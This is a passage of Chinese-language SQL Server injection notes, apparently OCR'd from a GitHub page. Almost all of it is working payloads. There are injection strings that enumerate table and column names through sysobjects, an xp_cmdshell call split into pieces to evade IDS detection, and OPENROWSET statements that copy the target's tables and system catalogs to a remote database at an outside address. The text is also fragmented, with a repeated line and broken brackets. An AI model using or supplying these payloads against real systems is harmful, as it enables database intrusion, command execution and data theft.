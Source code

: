 然后
```
id=152 and exists(select * from aaa where aaa>5)出错，得到字段名 
;update aaa set aaa=(select top 1 col_name(object_id(表名),2));-- 
```

然后
```
id=152 and exists(select * from aaa where aaa>5)出错，得到字段名
```

[获得数据表名][将字段值更新为表名，再想法读出这个字段的值就可得到表名]

update 表名 set 字段=(select top 1 name from sysobjects where xtype=u and status>0

[ and name<>你得到的表名 查出一个加一个]) [ where 条件] select top 1 name from sysobjects where xtype=u and status>0 and name not in(table1,table2,…) 

通过SQLSERVER注入漏洞建数据库管理员帐号和系统管理员帐号[当前帐号必须是SYSADMIN组]

[获得数据表字段名][将字段值更新为字段名，再想法读出这个字段的值就可得到字段名] 
update 表名 set 字段=(select top 1 col_name(object_id(要查询的数据表名),

字段列如:1) [ where 条件]

绕过IDS的检测[使用变量] 
```
;declare @a sysname set @a=xp_+cmdshell exec @a dir c:\ 
;declare @a sysname set @a=xp+_cm’+’dshell exec @a dir c:\
```

1、 开启远程数据库 
基本语法 
```
select * from OPENROWSET(SQLOLEDB, server=servername;uid=sa;pwd=123, select *from table1 ) 
```

参数: (1) OLEDB Provider name 
2、 其中连接字符串参数可以是任何端口用来连接,比如 
```
select * from OPENROWSET(SQLOLEDB, uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;, select * from table 
```

3.复制目标主机的整个数据库insert所有远程表到本地表。

基本语法： 
```
insert into OPENROWSET(SQLOLEDB, server=servername;uid=sa;pwd=123, select *from table1) select * from table2 
```

这行语句将目标主机上table2表中的所有数据复制到远程数据库中的table1表中。实际运用

中适当修改连接字符串的IP地址和端口，指向需要的地方，比如： 
```
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table1) select * from table2 
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _sysdatabases) select * from master.dbo.sysdatabases 
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _sysobjects) select * from user_database.dbo.sysobjects 
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _syscolumns) select * from user_database.dbo.syscolumns 
```
